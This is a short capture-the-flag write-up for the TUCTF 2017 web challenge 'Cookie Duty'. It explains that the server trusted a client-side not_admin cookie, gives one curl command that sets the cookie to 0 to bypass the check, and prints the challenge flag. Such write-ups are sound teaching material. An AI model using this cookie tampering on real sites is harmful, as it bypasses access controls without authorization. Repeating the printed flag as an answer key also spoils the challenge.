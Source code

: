 ```yaml
---
layout: post
title: "Solution to TUCTF 2017 Cookie Duty"
author: capitol
category: ctf
---
```

![cookies](/images/cookies.jpg)

##### name:
Cookie Duty

##### category:
web

##### points:
50

#### Writeup

We were presented with a page that had a simple form to set a name. The server set a cookie named not_admin to 1 when the form was posted.

To get the flag we simply changed the cookie value to 0 and requested the page again, like this: 
```bash
curl 'http://cookieduty.tuctf.com/index.php' -H 'Host: cookieduty.tuctf.com' -H 'Cookie: not_admin=0; user=dGVzdA%3D%3D'
```

flag was TUCTF{D0nt_Sk1p_C00k13_Duty}

